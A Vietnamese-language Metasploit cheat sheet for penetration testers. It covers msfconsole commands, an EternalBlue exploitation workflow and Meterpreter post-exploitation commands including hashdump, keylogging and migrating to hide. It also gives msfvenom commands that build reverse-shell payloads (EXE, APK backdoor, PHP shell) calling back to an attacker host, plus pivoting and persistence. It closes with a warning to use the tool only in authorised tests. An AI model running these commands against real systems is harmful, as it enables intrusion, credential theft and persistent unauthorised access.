

# Metasploit Framework Cheat Sheet

<!--more-->

Metasploit giúp đơn giản hóa việc tìm kiếm, khai thác và xác nhận các lỗ hổng bảo mật.

---

## 1. Kiến trúc và Các thành phần (Architecture)

Hiểu cấu trúc của MSF để biết cách phối hợp các module.



---

## 2. Các lệnh cơ bản trong msfconsole

Đây là "trái tim" của Metasploit.

| Lệnh | Ý nghĩa |
| :--- | :--- |
| `help` | Hiển thị tất cả các lệnh khả dụng. |
| `search <keyword>` | Tìm kiếm module (ví dụ: `search eternalblue`). |
| `use <module_path>` | Chọn một module để làm việc. |
| `info` | Xem thông tin chi tiết về module đang chọn. |
| `show options` | Xem các tham số cần thiết của module. |
| `set <variable> <value>` | Thiết lập giá trị cho tham số (ví dụ: `set RHOSTS 10.0.0.1`). |
| `setg <variable> <value>` | Thiết lập giá trị toàn cục (không cần set lại khi đổi module). |
| `unset <variable>` | Xóa giá trị đã thiết lập. |
| `check` | Kiểm tra xem mục tiêu có dính lỗi không (không khai thác). |
| `exploit` hoặc `run` | Bắt đầu quá trình tấn công/chạy module. |
| `back` | Thoát khỏi module hiện tại về menu chính. |
| `exit` | Thoát khỏi Metasploit. |

---

## 3. Quy trình khai thác tiêu chuẩn (The Workflow)

!!! info "Quy trình 5 bước"
    1.  **Tìm kiếm:** `search type:exploit name:smb`
    2.  **Chọn module:** `use exploit/windows/smb/ms17_010_eternalblue`
    3.  **Cấu hình:** `set RHOSTS 192.168.1.50` và `set LHOST 192.168.1.10`
    4.  **Chọn Payload:** `show payloads` -> `set payload windows/x64/meterpreter/reverse_tcp`
    5.  **Khai thác:** `exploit`

---

## 4. Làm việc với Payload & Meterpreter

Meterpreter là một payload cao cấp chạy trong bộ nhớ, cực kỳ khó bị phát hiện và cung cấp rất nhiều tính năng.

### Các loại Payload
=== "Staged Payloads"
    - Được chia làm 2 phần: Một phần nhỏ (Stager) được gửi trước để chiếm chỗ, sau đó mới tải phần lớn (Stage) về.
    - Ví dụ: `windows/meterpreter/reverse_tcp` (Dấu `/` thể hiện sự phân tách).
=== "Stageless Payloads"
    - Toàn bộ mã được gửi đi một lần duy nhất. Ổn định hơn trong môi trường mạng kém.
    - Ví dụ: `windows/meterpreter_reverse_tcp` (Dấu `_` nối liền).

### Các lệnh Meterpreter phổ biến
| Lệnh | Chức năng |
| :--- | :--- |
| **sysinfo** | Xem thông tin hệ thống nạn nhân. |
| **getuid** | Xem quyền hạn hiện tại (User nào). |
| **getsystem** | Cố gắng leo thang đặc quyền lên SYSTEM (Windows). |
| **hashdump** | Trích xuất file băm mật khẩu (Hashes). |
| **screenshot** | Chụp màn hình máy nạn nhân. |
| **shell** | Mở CMD hoặc Bash của máy nạn nhân. |
| **upload/download** | Di chuyển file giữa máy tấn công và máy nạn nhân. |
| **migrate <pid>** | Di chuyển tiến trình Meterpreter sang một App khác (ví dụ: explorer.exe) để ẩn mình. |
| **keyscan_start** | Bắt đầu ghi lại các phím bấm (Keylogging). |

---

## 5. MSFVenom: Trình tạo Payload tùy chỉnh

Dùng để tạo các file thực thi (`.exe`, `.apk`, `.php`...) chứa mã độc.

### Cú pháp cơ bản
`msfvenom -p <payload> <options> -f <format> -o <output>`

### Ví dụ điển hình
??? details "Tạo file EXE cho Windows"
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o payload.exe
    ```
??? details "Tạo file APK cho Android"
    ```bash
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o backdoor.apk
    ```
??? details "Tạo Reverse Shell bằng PHP"
    ```bash
    msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
    ```

---

## 6. Quản lý Cơ sở dữ liệu (Database)

Sử dụng database giúp bạn lưu lại lịch sử quét, các host đã tìm thấy và các service đang chạy.

1.  **Khởi động:** `systemctl start postgresql` -> `msfdb init`
2.  **Trạng thái:** `db_status`
3.  **Tích hợp Nmap:** `db_nmap -sV 192.168.1.0/24` (Kết quả tự động lưu vào MSF).
4.  **Truy vấn:**
    - `hosts`: Liệt kê các máy đã quét.
    - `services`: Liệt kê các cổng đang mở.
    - `vulns`: Liệt kê các lỗ hổng đã xác nhận.
    - `creds`: Liệt kê các thông tin đăng nhập đã thu thập được.

---

## 7. Kỹ thuật nâng cao & Post-Exploitation

### Port Forwarding (Chuyển tiếp cổng)
Dùng để truy cập các dịch vụ bên trong mạng nội bộ mà máy tấn công không thấy trực tiếp.
`portfwd add -l 3389 -p 3389 -r 192.168.1.50`
*(Bây giờ bạn có thể RDP vào localhost:3389 để điều khiển máy 1.50)*

### Pivoting (Nhảy cóc)
Sử dụng một máy đã chiếm được quyền làm bàn đạp để tấn công các máy khác trong mạng nội bộ.
1.  Thiết lập Route: `route add 10.10.10.0 255.255.255.0 1` (1 là ID của Session).
2.  Sử dụng module quét trong mạng nội bộ qua Route này.

### Persistence (Duy trì truy cập)
Tạo cơ chế để khi máy nạn nhân khởi động lại, bạn vẫn có quyền điều khiển.
`run persistence -U -i 5 -p 4444 -r 192.168.1.10`

---

## 8. Các từ khóa quan trọng (Terminology)

| Từ khóa | Ý nghĩa |
| :--- | :--- |
| **RHOSTS** | Remote Host - Địa chỉ IP của mục tiêu. |
| **LHOST** | Local Host - Địa chỉ IP của máy tấn công (dùng cho Reverse Shell). |
| **RPORT** | Remote Port - Cổng dịch vụ trên máy mục tiêu. |
| **LPORT** | Local Port - Cổng máy tấn công chờ kết nối về. |
| **Payload** | Đoạn mã sẽ thực hiện hành động trên máy nạn nhân (ví dụ: mở shell). |
| **Handler** | Module chuyên dùng để nghe (listen) các kết nối ngược về từ Payload. |

---

!!! tip "Mẹo nhỏ"
    Sử dụng lệnh `grep` bên trong msfconsole để lọc kết quả:
    `grep meterpreter show payloads`
    Điều này giúp bạn tìm nhanh các payload cụ thể trong hàng ngàn lựa chọn.

---

!!! warning "Cảnh báo"
    Metasploit là một công cụ cực kỳ mạnh mẽ. Chỉ sử dụng nó trong môi trường thử nghiệm hợp pháp hoặc các dự án Pentest đã được cấp phép. Việc sử dụng trái phép có thể dẫn đến hậu quả pháp lý nghiêm trọng.
